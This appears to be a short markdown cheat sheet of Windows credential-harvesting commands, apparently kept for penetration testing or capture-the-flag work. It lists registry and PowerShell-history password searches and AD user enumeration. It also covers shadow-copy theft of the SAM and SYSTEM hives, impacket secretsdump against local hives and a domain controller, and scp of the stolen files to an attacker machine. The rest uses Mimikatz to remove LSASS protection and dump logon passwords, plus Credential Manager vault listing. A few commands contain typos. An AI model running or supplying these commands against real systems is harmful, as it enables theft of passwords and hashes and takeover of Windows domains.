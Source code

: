 # References

# Notes


# Commands

~~~
C:\Users\<User>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\<filename>.txt
~~~

Query Registry & Findstr
~~~
>reg query HKLM /f password /t REG_SZ /s | findstr flag
>
~~~

Query Registry
~~~
reg query HKLM /f password /t REG_SZ /s
~~~

Get Aduser
~~~
Get-ADUser -Filter * -Properties * | select Name, SamAccountName, Description
~~~

Create VSS from admin
~~~
wmic shadowcopy call create Volume='C:\'
~~~

List shadows
~~~
vssadmin list shadows
~~~

SecretsDump.py
~~~
python3.9 /opt/impacket/examples/secretsdump.py -sam sam -system system LOCAL
~~~

~~~
python3.9 /opt/impacket/examples/secretsdump.py -just-dc-ntlm <Domain>/<AD_Admin_User>@<ip>
~~~

Copy to desktop
~~~
adminprompt>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
~~~

~~~
adminprompt>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\ssystem C:\users\Administrator\Desktop\system
~~~

SCP to linux (change attack passwd)
~~~
scp <file> <user>r@<ip>:<directory>
~~~

Mimikatz remove LSA Protection
~~~
!processprotect /process:lsass.exe /remove
~~~

Mimikatz dump NTLM
~~~
sekurlsa::logonpasswords
~~~

Windows Cred Manager 
~~~
vaultcmd /list
VaultCmd /listproperties:"Web Credentials"
VaultCmd /listcreds:"Web Credentials"
~~~

Runas Example
~~~
runas /savecred /user:<user>\<domain> cmd.exe
~~~

